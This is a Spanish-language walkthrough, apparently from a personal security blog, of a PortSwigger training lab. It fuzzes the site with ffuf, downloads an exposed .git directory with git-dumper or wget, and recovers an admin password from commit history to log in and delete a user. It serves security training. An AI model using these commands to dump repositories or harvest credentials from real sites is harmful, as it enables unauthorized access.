 ```yaml
---
title: "Information Disclosure Lab 5"
date: 2024-12-03 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Information Disclosure
tags:
  - Information Disclosure
  - Information disclosure in version control history
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Information disclosure in version control history

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` `revela` información `sensible` a través de su `historial de control de versiones`. Para `resolver` el laboratorio, `obtén` la `contraseña` del `usuario administrador`, luego `inicia sesión` y `elimina` al `usuario` `carlos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Information-Disclosure-Lab-5/image_1.png)

`Fuzzeamos` la `web`, además de hacerlo desde `Burpsuite` podemos usar herramientas como `fuff` desde `consola`

```
# ffuf -c -t 10 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a09009203fe839383e93ca700bf000c.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a09009203fe839383e93ca700bf000c.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git/logs/              [Status: 200, Size: 548, Words: 152, Lines: 19, Duration: 77ms]
.git/index              [Status: 200, Size: 225, Words: 2, Lines: 3, Duration: 132ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 184ms]
.git/config             [Status: 200, Size: 157, Words: 14, Lines: 9, Duration: 171ms]
.git                    [Status: 200, Size: 1201, Words: 256, Lines: 27, Duration: 199ms]
ADMIN                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 58ms]
Admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 54ms]
Login                   [Status: 200, Size: 3192, Words: 1315, Lines: 64, Duration: 52ms]
admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 54ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
```

Con `git-dumper` [https://github.com/arthaud/git-dumper.git](https://github.com/arthaud/git-dumper.git) podemos `descargarnos` todo el `.git/` y si queremos una alternativa con `interfaz gráfica` podemos usar `git-cola` [https://github.com/git-cola/git-cola.git](https://github.com/git-cola/git-cola.git)

```
# git-dumper https://0a460009044cee648030a7e300300090.web-security-academy.net/.git/ project
```

Otra alternativa sería `descargarnos` todo usando `wget`

```
# wget -r https://0a460009044cee648030a7e300300090.web-security-academy.net/.git/
```

`Listamos` los `logs`

```
# git log                                          
commit 0de9db705d356593125a122dd61dc2c5b4c059d6 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 8ce2169ffe2532afaddebd8b63c8cedad993e662
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

`Vemos` el `último commit` y `obtenemos` una `contraseña`

```
# git show 0de9db705d356593125a122dd61dc2c5b4c059d6
commit 0de9db705d356593125a122dd61dc2c5b4c059d6 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 26742e2..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=z9xi7od0a1z0ar5c36jz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

Nos `logueamos` con las credenciales `administrator:z9xi7od0a1z0ar5c36jz`

![](/assets/img/Information-Disclosure-Lab-5/image_2.png)

Pulsamos sobre `Admin panel` y le `borramos` la `cuenta` al usuario `carlos`

![](/assets/img/Information-Disclosure-Lab-5/image_3.png)
